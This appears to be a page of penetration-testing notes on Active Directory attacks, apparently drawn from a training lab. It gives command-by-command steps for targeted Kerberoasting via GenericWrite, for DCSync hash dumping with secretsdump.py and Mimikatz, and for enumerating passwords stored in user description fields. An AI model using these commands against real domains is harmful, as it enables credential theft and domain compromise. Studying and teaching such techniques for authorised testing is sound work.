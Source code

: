 #### **Abusing GenericWrite to Add Fake SPN and Perform Targeted Kerberoasting**

> If you have control of a Linux domain-joined host, you can use [TargetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform all the following steps in one command

1. Create a PSCredential Object with the credential of a user who shares group membership with the target user
   * `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force`
   * `$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\validuser', $SecPassword)`
2. Create a fake SPN:
   * `Set-DomainObject -Credential $Cred -Identity targetuser -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`
3. Kerberoast with Rubeus or any alternatives, see the [Kerberoasting Section](internal-enumeration-and-lateral-movement.md#kerberoasting)
   * `.\Rubeus.exe kerberoast /user:targetuser /nowrap`

***

#### **DCSync (Replicating Directory Changes & Replicating Directory Changes All)**

> DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a DC to retrieve user NTLM password hashes by requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right, which allows the replication of secret data.\
> \
> To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the `Replicating Directory Changes` and `Replicating Directory Changes All` permissions set).\
> Domain/Enterprise Admins and default domain administrators have this right by default.

**Enumerate and Perform a DCSync Attack:**

1. Check target user (by SID) to check replication rights (DCSync):
   * `Import-Module .\PowerView.ps1`
   * `$sid = Convert-NameToSid targetuser` followed by
   * `Get-ObjectAcl "DC=domainname,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`
2. Extract NTLM hashes from the NDTS.dit file on the DC:
   * Linux: `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/user-with-replication-rights@172.16.5.5 -use-vss`
   * Windows(Mimikatz): `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

***

## **Miscellaneous Misconfigurations**

**Passwords in User Description Field:**

* Sensitive information such as account passwords are sometimes found in the user account Description or Notes fields and can be quickly enumerated using PowerView.
* `Import-Module .\PowerView.ps1` followed by `Get-DomainUser * | Select-Object samaccountname,description`

